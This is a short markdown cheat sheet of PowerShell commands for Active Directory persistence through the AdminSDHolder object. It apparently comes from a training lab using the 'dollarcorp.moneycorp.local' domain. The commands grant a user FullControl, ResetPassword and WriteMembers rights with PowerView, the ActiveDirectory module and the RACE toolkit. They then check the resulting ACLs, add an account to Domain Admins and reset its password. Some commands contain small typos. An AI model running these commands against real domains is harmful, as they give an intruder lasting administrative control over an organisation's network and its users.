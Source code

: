 
# (Persisting through AD Group Templates)
## Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
`Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`
## Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder( Go for what you exactly need and not the full permisions):
`Add-DomainObjectAcl -TargetIdentity'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`

`Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose`

## Using ActiveDirectory Module and RACE toolkit
(https://github.com/samratashok/RACE) :
`Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local'-Verbose`

## Check (if what we did before worked or not) the Domain Admins permission - PowerView as normal user:
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
## Using ActiveDirectory Module:
(Get-Acl -Path 'AD:\CN=DomainAdmins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$.IdentityReference -match 'student1'}

## Moreover now we can abuse :Abusing FullControl using PowerView:
`Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose`
## Using ActiveDirectory Module:
`Add-ADGroupMember -Identity 'Domain Admins' -Members testda`

## Abusing ResetPassword using PowerView:
`Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`
## Using ActiveDirectory Module:
`Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose`
